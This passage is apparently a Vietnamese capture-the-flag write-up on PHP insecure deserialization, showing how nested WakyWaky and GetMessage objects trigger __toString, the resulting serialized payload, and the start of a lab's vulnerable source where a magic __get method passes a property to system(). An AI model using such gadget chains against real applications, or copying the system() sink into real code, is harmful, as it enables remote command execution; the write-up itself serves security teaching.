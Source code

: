 Khởi tạo class `WakyWaky` lần 1 và truyền vào class `$first` (class `GetMessage`):

```php
$second = new WakyWaky($first);
```

Khởi tạo class `WakyWaky` lần 2 và truyền vào class`$second` (class `WakyWaky`):

```php
$third = new WakyWaky($second);
```

Mục đích của việc khởi tạo 2 lần là để `$setflag = true` (gọi hàm `__toString()`):

```php
class WakyWaky {
    function __wakeup() {
        echo "[YOU]: ".$this->msg."<br>";
    }

    function __toString() {
        global $getflag;
        $getflag = true;
        return (new GetMessage($this->msg))->receive;
    }
}
```

Lần thứ nhất được tạo để define thuộc tín `msg`, lần thứ 2 được gọi để dựa vào hàm `echo "[YOU]: ".$this->msg."<br>";` sẽ ép kiểu thuộc tính `msg` thành string và từ đó gọi hàm `__toString()`

Cuối cùng là `serialize()` payload trên lại:

```php
echo serialize($third);
```

Em có payload:
```
O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}
```

Submit payload trên và lấy flag thoii:

![](https://hackmd.io/_uploads/SyZtWAuNh.png)


# Lab

Source code:
```php
<title>Insecure Deserialization</title>
<a href="?src">View source</a>
<?php

class Execute {
  public $filename;

  public function exe($cmd){
    system($cmd);
  }

  public function __construct($filename){
    $this->filename = $filename;
  }

  public function __get($key){
    $this->exe($this->filename);
  }
```